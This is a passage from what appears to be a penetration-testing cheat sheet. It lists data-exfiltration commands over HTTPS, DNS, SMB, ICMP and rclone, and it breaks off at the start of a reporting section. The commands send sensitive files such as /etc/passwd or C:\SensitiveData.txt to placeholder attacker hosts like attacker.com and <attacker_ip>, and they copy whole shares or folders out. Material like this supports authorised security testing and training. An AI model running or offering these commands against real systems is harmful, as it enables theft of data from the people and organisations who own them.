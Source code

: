 #### 9.1 Data Exfiltration via HTTPS 

- **Invoke-WebRequest (PowerShell)**:
    
    ```powershell
    $data = Get-Content C:\SensitiveData.txt
    Invoke-WebRequest -Uri https://<attacker_server>/upload -Method POST -Body $data
    ```
    

#### 9.2 Exfiltration via DNS 

- **DnsExfiltrator**:
    
    ```bash
    dnsexfiltrator -i ens33 -d attacker.com -f /etc/passwd
    ```
    
- **Dnscat2**:
    
    ```bash
    dnscat2-client <target_domain>
    ```
    

#### 9.3 Exfiltration via SMB** 

- **SMBClient**:
    
    ```bash
    smbclient //target/share -U <username> -c 'prompt off; mget *'
    ```
    

#### 9.4 Data Exfiltration via ICMP 

- **PowerShell (Invoke-PingExfil)**:
    
    ```powershell
    Invoke-PingExfil -FilePath C:\sensitive_data.txt -DestinationIP <attacker_ip>
    ```
    

#### 9.4 Exfiltration via Rclone 

- **Exfil with Rclone**:
    
    ```bash
    rclone copy /path/to/data remote:bucket
    ```
    

# 10. Reporting and Cleanup 

#### 10.1 Generate Comprehensive Report 

- **Dradis Framework**:
    